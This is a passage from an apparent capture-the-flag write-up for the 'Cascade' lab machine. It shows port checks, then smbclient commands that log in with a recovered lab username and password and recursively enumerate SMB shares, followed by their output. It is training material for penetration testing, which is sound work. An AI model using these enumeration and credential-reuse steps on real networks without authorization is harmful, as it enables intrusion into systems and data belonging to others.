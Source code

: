 ```shell
[-] Skipping ssh — port 22 is closed

[*] Checking if vnc port 5900 is open on cascade.htb...
[-] Skipping vnc — port 5900 is closed

[*] Checking if ftp port 21 is open on cascade.htb...
[-] Skipping ftp — port 21 is closed

[*] Checking if mssql port 1433 is open on cascade.htb...
[-] Skipping mssql — port 1433 is closed
```
so we can login to smb, lets try connecting as `r.thompson`

### SMB login via `r.thompson`
```shell
smbclient -L cascade.htb -U r.thompson%rY4n5eva
```

```shell
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
Audit$          Disk      
C$              Disk      Default share
Data            Disk      
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
print$          Disk      Printer Drivers
SYSVOL          Disk      Logon server share 
```
hm, there are shares like `Data` that are not the default systemic ones, lets start from there

#### Downloading and inspecting the SMB shares

this will recursively list the shares we have access
```shell
smbclient //cascade.htb/Data -U r.thompson%rY4n5eva -c 'recurse;ls'
```

```shell
 .                                   D        0  Sun Jan 26 22:27:34 2020
  ..                                  D        0  Sun Jan 26 22:27:34 2020
  Contractors                         D        0  Sun Jan 12 20:45:11 2020
  Finance                             D        0  Sun Jan 12 20:45:06 2020
  IT                                  D        0  Tue Jan 28 13:04:51 2020
  Production                          D        0  Sun Jan 12 20:45:18 2020
  Temps                               D        0  Sun Jan 12 20:45:15 2020

\Contractors
NT_STATUS_ACCESS_DENIED listing \Contractors\*

\Finance
NT_STATUS_ACCESS_DENIED listing \Finance\*

\IT
  .                                   D        0  Tue Jan 28 13:04:51 2020
  ..                                  D        0  Tue Jan 28 13:04:51 2020
  Email Archives                      D        0  Tue Jan 28 13:00:30 2020
  LogonAudit                          D        0  Tue Jan 28 13:04:40 2020
  Logs                                D        0  Tue Jan 28 19:53:04 2020
  Temp                                D        0  Tue Jan 28 17:06:59 2020

\Production
NT_STATUS_ACCESS_DENIED listing \Production\*

```